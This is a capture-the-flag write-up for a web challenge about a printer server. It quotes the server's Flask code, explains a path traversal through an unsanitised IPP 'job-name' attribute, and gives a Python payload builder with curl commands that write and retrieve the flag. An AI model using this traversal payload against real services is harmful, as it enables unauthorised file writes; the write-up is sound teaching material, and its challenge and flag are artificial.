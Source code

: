# Who checks the integrity of the integrity checks? - web

## Challenge

The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?

Provided zipped printer server codebase.

## Solve

Viewing the source code for the printer server, we can find both where our flag is and how to get there:

__*Where*__

```py
FLAG_PATH = "/flag.txt"
PRINTJOB_FOLDER = "/tmp/printjobs"
CHAL_TARGET_FOLDER = "/tmp/winners"
```

__*How*__

```py
@app.route('/printers/votes', methods=['POST'])
def handle_print_job():
    ...
    ...
    with open(f"{PRINTJOB_FOLDER}/{filename}", "wb") as f:
        f.write(pdf_data)
    
    actual_path = os.path.realpath(os.path.join(PRINTJOB_FOLDER, filename))

    if actual_path.startswith(CHAL_TARGET_FOLDER):
        with open(FLAG_PATH, "r") as f:
            flag = f.read()

        with open(actual_path, "w") as f:
            f.write(flag)

    return Response("Print job saved", status=200, content_type="application/ipp")
```

So:

- The print job folder is `/tmp/printjobs`
- The target folder is `/tmp/winners`
- If we provide a print job with a filename that evaluates to a path beginning with `/tmp/winners`, the flag will be written in that directory under whatever filename we provide
  - The use of an f-string directly inserts the provided input without escaping or sanitisation. This input is then passed to `os.path.join()` leading to a path traversal vulnerability

We can see both how we supply a filename and the expected structure of a print job earlier in `handle_print_job()`:

```py
data = request.data
    idx = 8
    if data[idx] != 0x01:
        return "Missing operation attributes tag", 400
    idx += 1

    filename = None
    try:
        while data[idx] != 0x03:
            tag = data[idx]
            name_len = struct.unpack(">H", data[idx+1:idx+3])[0]
            name = data[idx+3:idx+3+name_len].decode()
            val_len_offset = idx+3+name_len
            val_len = struct.unpack(">H", data[val_len_offset:val_len_offset+2])[0]
            val = data[val_len_offset+2:val_len_offset+2+val_len].decode()
            if name == "job-name":
                filename = val
            idx = val_len_offset + 2 + val_len
    except Exception:
        return "Malformed IPP attributes", 400

    idx += 1  # skip end tag
    pdf_data = data[idx:]
```
- First 8 bytes of the file are skipped (these are ipp headers version, operation code, request ID)
- Then expects byte `0x1` (ipp operation attributes tag which marks the start of job attributes)
- Then attributes are continuously read until encountering terminate byte `0x3`
- Then any remaining bytes are considered the payload or actual data of the print job

If the attribute `job-name` is provided, `filename` is set to its value (`val`). So, we can send a print job, specifying the `job-name` attribute to control filename! If we make `job-name` our target path, the unsanitised input can give us our flag!

The following script generates a print job matching the requirements with the `job-name` attribute set to `../winners/gimmeflag.txt`:

```py
import struct

def craft_ipp_payload(job_name, pdf_content=b"anything"):

    payload = bytearray()
    
    # IPP Header (8 bytes) - ignored by server so set to all zero
    # version: any
    payload.extend(struct.pack(">H", 0x0000))
    # operation: any
    payload.extend(struct.pack(">H", 0x0000))
    # req id: any
    payload.extend(struct.pack(">I", 0x00000000))
    
    # add operation attributes tag
    payload.append(0x01)
    
    # Add job-name attribute
    # Tag for textWithoutLanguage (0x41)
    payload.append(0x41)
    
    # Name length and name
    name = b"job-name"
    payload.extend(struct.pack(">H", len(name)))
    payload.extend(name)
    
    # Value length and value
    job_name_bytes = job_name.encode()
    payload.extend(struct.pack(">H", len(job_name_bytes)))
    payload.extend(job_name_bytes)
    
    # End of attributes tag
    payload.append(0x03)
    
    # add 'data' or 'payload' portion
    payload.extend(pdf_content)
    
    return bytes(payload)

malicious_payload = craft_ipp_payload("../winners/gimmeflag.txt")

with open("test.ipp", "wb") as f:
        f.write(malicious_payload)
```

This results in `filename` becoming `/tmp/printjobs/../winners/gimmeflag.txt`, evaluating to `/tmp/winners/gimmeflag.txt` (matching the syntax of our target directory)!

Running the script generates `test.ipp` which we send to the server:

```py
curl -X POST --data-binary @test.ipp -H "Content-Type: application/ipp" http://printer.commission.freedonia.vote:80/printers/votes -v
```

The server receives our file, which we can then read with:

`curl http://printer.commission.freedonia.vote:80/files/gimmeflag.txt`

print

`cysea{cant_trust_anything_these_days_31fe6ba0a0}`

